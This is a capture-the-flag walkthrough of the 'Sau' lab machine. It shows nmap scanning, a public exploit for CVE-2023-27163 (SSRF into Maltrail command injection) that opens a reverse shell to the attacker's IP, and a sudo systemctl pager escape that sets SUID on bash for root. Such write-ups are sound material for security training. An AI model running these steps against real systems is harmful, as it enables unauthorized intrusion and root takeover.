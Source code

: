 ```yaml
---
title: Sau
published: true
layout: post
---
```


<br />

---------------
Sau is an Easy Difficulty Linux machine that features a Request Baskets instance that is vulnerable to Server-Side Request Forgery (SSRF) via [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Leveraging the vulnerability we are to gain access to a Maltrail instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as puma. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/JfYLuYz0vFk?si=g9tMKkHZtXBc5Asx" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.224 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Sau/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **55555/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.224 -p 22,55555 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Sau/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **55555/tcp unknown**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.224 -p 22,55555 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Sau/3.png)
<br />
<br />
<br />

Which didn't return anything.

<br />

------

<br />
### Foothold

This machine's foothold was very straightforward, a **single exploit** was required to gain the foothold, this exploit leveraged an **SSRF vulnerability** to **upload a reverse shell**.

<br />

The first thing I notice when entering the **website** on **port 55555/tcp** is a **version number**:
![](/assets/Sau/4.png)
<br />
<br />
<br />

A quick search revealed a **CVE**:
![](/assets/Sau/5.png)
<br />
<br />
<br />

So I used an [exploit](https://github.com/davuXVI/CVE-2023-27163) from *davuXVI* to get the foothold:

```bash
./CVE_2023_27163.sh -i 10.10.11.224 -f localhost:80 -t 10.10.16.9
```

![](/assets/Sau/6.png)
<br />
<br />
<br />

And just like that we got the user flag:
![](/assets/Sau/7.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

This machine's privilege escalation is very funny, as it's through a **pager**, which I personally enjoy so much.

<br />

Enumerating possible privilege escalation vectors we discover that we can **execute `systemctl` with `sudo`**:
![](/assets/Sau/8.png)
<br />
<br />
<br />

After a glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) we know how to escalate privilege:
![](/assets/Sau/9.png)
<br />
<br />
<br />

However, when we run the command, no pager is invoked:
![](/assets/Sau/10.png)
<br />
<br />
<br />

This is due we are not in an actual tty, we can fix this running:

```bash
script /dev/null -c bash
```

<br />

We can test if it worked by running this command and receiving a tty size:

```bash
stty size
```

![](/assets/Sau/11.png)
<br />
<br />
<br />

Now everything works and the pager is invoked, we can **run a command prepended by an exclamation mark to run a command**, like assigning SUID privilege to the bash binary:

```bash
!chmod u+s /bin/bash
```

![](/assets/Sau/12.png)
<br />
<br />
<br />

Now we just have to **leverage the SUID permission** running `bash -p` and get the root flag:
![](/assets/Sau/13.png)

<br />
<br />
<br />
